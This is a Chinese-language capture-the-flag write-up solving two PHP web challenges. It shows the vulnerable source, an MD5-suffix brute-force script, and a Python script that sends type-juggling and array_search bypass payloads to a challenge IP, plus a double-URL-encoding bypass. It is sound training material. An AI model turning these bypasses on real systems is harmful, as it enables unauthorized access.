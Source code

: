 # easyphp

知识点：代码审计+强弱类型+array_search绕过

[参考教程](https://blog.csdn.net/bmth666/article/details/104769645)

```php
<?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;

$a = $_GET['a'];
$b = $_GET['b'];

if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){ 
    if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
        $key1 = 1;
    }else{
        die("Emmm...再想想");
    }
}else{
    die("Emmm...");
}

$c=(array)json_decode(@$_GET['c']);
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
    if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        $d = array_search("DGGJ", $c["n"]);
        $d === false?die("no..."):NULL;
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
        }
        $key2 = 1;
    }else{
        die("no hack");
    }
}else{
    die("no");
}

if($key1 && $key2){
    include "Hgfks.php";
    echo "You're right"."\n";
    echo $flag;
}

?> Emmm...
```

**代码逻辑**

构造`$a = 6e7`

- 检查 `a` 是否存在并且将其转换为整数（`intval($a)`）。

- 确保 `a` 大于 6000000 且长度小于等于 3（意味着 `a` 是一个 600 万到 999 万之间的整数）。

构造`$b = 53724`

```python
import hashlib
# 创建一个生成MD5哈希并检查后六位是否为'8b184b'的函数
def find_md5_suffix():
    i = 0
    target_suffix = '8b184b'
    
    while True:
        # 计算当前数值的MD5哈希
        md5_hash = hashlib.md5(str(i).encode()).hexdigest()
        
        # 检查后六位是否等于目标值
        if md5_hash[-6:] == target_suffix:
            return i, md5_hash
       
        i += 1

# 调用函数查找符合条件的值
result = find_md5_suffix()
```



- 检查 `b` 是否存在，并且计算其 MD5 值，然后取其最后 6 个字符。
- 验证这 6 个字符是否与 `8b184b` 相等。
- 如果条件不满足，程序终止输出 `"Emmm...再想想"`。
- 如果条件满足，将 `$key1` 置为 1。



- 将 `$_GET['c']` 通过 `json_decode()` 解码为一个 PHP 数组，并强制转换为数组类型。使用 `@` 来忽略潜在的解码错误。
- 检查 `c` 是否为数组，`c["m"]` 是否为非数字，并且 `c["m"]` 是否大于 2022。
- 如果不满足这些条件，程序终止并输出 `"no"`。
- 使用 `array_search()` 函数在 `c["n"]` 数组中查找字符串 `"DGGJ"`，如果找不到，程序终止并输出 `"no..."`。(array_search() 函数在数组中搜索某个键值，并返回对应的键名。)
- 并且后续的`===`比较时，不能够等于`"DGGJ"`

```python
import requests
import json
# 构造符合条件的 JSON 对象
c_data = {
    "m": "2023abc",  # 非数字且大于 2022,会自动截断
    "n": [[], 0]  # n 是一个包含 2 个元素的数组，n[0] 是一个数组
}
# 将 Python 对象转换为 JSON 字符串
c_json = json.dumps(c_data)
print(c_json)
# 目标URL
url = "http://61.147.171.105:57022/"
payload= {'a': '6e7', 'b': '53724', 'c': c_json}
response = requests.get(url, params=payload)
print(response.text)
```

在`array_search()` 中，比较是`==`，而且`"字符串" == 0`是成立的，因此，只要让一个数组下标非零的位置值为0，那么`array_search()` 就会返回0值的下标，因为下标非0，所以为true。

# PHP2

知识点：phps文件&url解码

```php
<?php
if("admin"===$_GET[id]) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>

Can you anthenticate to this website?
```

简单点来说，phps文件就是php的源码，但用户在浏览器上直接访问php文件是渲染后的，看不到源码，为了让其能够看到，就有了phps文件。

根据源码很好知道，两次判定一次解码，但不要忘了后端会自动进行一次解码，加上代码里的，所以有两次解码，我们进行编码也要编两次。

这次知道了：

`%ASCII`就可以url编码，但不仅符号，普通字母也可以用，但数字如果用的话，会变成字符形式，而不是数字。
